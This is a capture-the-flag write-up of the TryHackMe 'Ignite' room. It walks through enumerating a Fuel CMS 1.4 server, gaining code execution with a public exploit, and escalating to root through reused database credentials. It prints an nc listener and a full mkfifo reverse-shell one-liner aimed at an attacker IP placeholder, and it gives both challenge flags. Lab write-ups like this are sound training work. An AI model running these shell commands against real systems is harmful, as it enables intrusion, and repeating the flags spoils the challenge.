









---
tags:
  - tryhackme
  - challenge
  - easy
  - offensive
  - web
  - linux
  - vulnerability-exploitation
  - privilege-escalation
---

# Ignite

**Platform:** TryHackMe  
**Type:** Challenge  
**Difficulty:** Easy  
**Link:** [Ignite](https://tryhackme.com/room/ignite)

## Description
"A new start-up has a few issues with their web server."

## Initial Enumeration
I generated a list of open ports for more comprehensive enumeration with the following:  
`ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`  
This revealed the following open port:  

* 80  

I ran a full `nmap` scan to query the service for version information, as well as querying the target system for OS information with `nmap -p$ports -A -T4 TARGET_IP_ADDRESS`, which revealed the following:  
  

Alright - there's a directory there to visit. I used my go-to `ffuf` command to enumerate the website further before opening it up in a browser:  
`ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c`  
  

Enumerating the web site through a web browser revealed the following:  

* `/home`, `/index`. and `/0` all directed to the same page - a setup guide for a Fuel CMS instance.  
* `/offline` directed to a static web page simply displaying text about the site being offline.  
* `/fuel` hosts an admin login page.  
* `/robots.txt` held only one entry and no other text (`/fuel/`).  
* The source code didn't reveal anything that the rendered page didn't.  
* There was a default username and password (`admin:admin`) on the home page but these did not work when entered in the login page.  
* Entering `'` into firstly the username and secondly the password field on the login page did not force an error (SQLi posbbily not the intended path in that case).  
* Attempting a small handful more of passwords for the `admin` account locked the account, proving that there was a lockout policy in place (that's brute forcing the password off the cards then).  
* The home page openly disclosed the Fuel CMS version installed (1.4).
* There was a password reset functionality in place on the login page but required an email address to trigger.

## Initial foothold
With the CMS version disclosed, that seemed like a good place to look at possible vulnerabilities.  I used `searchsploit` as a starting point:  
  

OK, there's two promising exploits there - both RCE and Python based. I used the `-p` switch with `searchsploit` to copy the file path into the clipboard, consequently copying them into my working directory for inspection. The second of the two looked particularly promising - written in Python3 (rather than an earlier version) with guidance incorporated for usage. I ran it as per the documentation and was successful immediately:  
  

Some basic enumeration of the file system uncovered the user flag pretty quickly:  
  
??? success "User.txt"
	6470e394cbf6dab6a91682cc8585059b

## Privilege Escalation
Alright, so the forward plan at this stage was to enumerate the web app files a little bit, because they were immediate. If that didn't turn anything up, maybe get linpeas on to the target machine, run it and go from there. As it turned out, I didn't get as far as linpeas: I found a few interesting looking files during the initial enumeration of the web app files:  
  

Reading the contents of each, I found something particularly promising in the `database.php` file:  
  

Thinking I could be looking at a password reuse situation, I decided to try switching user to the root user with the discovered credentials. The initial attempt to use `su` failed as the command requires full terminal access. Attempting to upgrade my shell (`python -c 'import pty; pty.spawn("/bin/bash")'`) within the context of the exploit shell I had failed so instead I opened an `nc` listener on my attacker machine (`nc -lvnp <portNumber>`) and attempted a reverse shell from my running exploit (`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <attackerIp> <portNumber> >/tmp/f`):  
  

Success! And I was able to upgrade my shell to boot, which should mean that `su` was now available. Spoiler alert - it was. Using the credentials discovered in the `database.php` file from earlier was also successful, and from there finding and reading the flag was trivial:  
  
??? success "Root.txt"
	b9bbcb33e11b80be759c4e844862482d

**Tools Used**  
`searchsploit` `nc`

**Date completed:** 20/03/26  
**Date published:** 21/03/26